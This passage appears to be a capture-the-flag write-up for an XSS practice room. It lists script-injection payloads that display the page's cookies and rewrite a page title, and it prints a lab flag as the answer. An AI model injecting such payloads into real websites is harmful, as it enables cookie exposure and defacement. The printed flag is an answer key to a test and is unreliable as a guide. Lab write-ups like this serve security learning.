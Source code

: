3. Create an alert popup box appear on the page with your document cookies.

*payload:* `<script>alert(document.cookie)</script>`

![](Pastedimage20210610122145.png)

*ANSWER:* `W3LL_D0N3_LVL2`

4. Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.

*payload:* `<script>document.getElementById('thm-title').innerHTML="I am a hacker"</script>` 
									**OR**
*payload:* `document.querySelector('#thm-title').textContent = 'Hey'`


![](Pastedimage20210610123059.png)
